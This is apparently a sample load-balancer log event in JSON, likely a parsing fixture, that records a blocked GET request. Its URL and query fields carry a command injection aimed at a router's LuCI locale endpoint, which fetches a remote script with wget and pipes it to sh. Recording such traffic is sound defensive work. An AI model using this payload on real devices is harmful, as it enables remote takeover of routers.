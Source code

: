         "cloud": {
            "project": {
                "id": "integration-gcloadbalancing"
            },
            "provider": "Google Cloud",
            "service": {
                "name": "Load Balancing"
            }
        },
        "google_cloud_load_balancing": {
            "insertId": "1t7m3mbf14kc7c",
            "logName": "projects/integration-gcloadbalancing/logs/loadbalancing.googleapis.com%2Fexternal_regional_requests",
            "priority": "2147483646",
            "receiveTimestamp": "2024-08-26T15:30:31.15568806Z",
            "severity": "WARNING"
        },
        "http": {
            "request": {
                "method": "GET"
            },
            "response": {
                "status_code": 503
            }
        },
        "related": {
            "ip": [
                "1.2.3.4"
            ]
        },
        "rule": {
            "name": "policy-name"
        },
        "source": {
            "address": "1.2.3.4",
            "ip": "1.2.3.4",
            "port": 49194
        },
        "url": {
            "domain": "5.6.7.8",
            "original": "http://5.6.7.8:80/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F1.1.1.1%3A88%2Ft%7Csh%3B%60)",
            "path": "/cgi-bin/luci/;stok=/locale",
            "port": 80,
            "query": "form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F1.1.1.1%3A88%2Ft%7Csh%3B%60)",
            "scheme": "http"
        }
    }
    	
	```
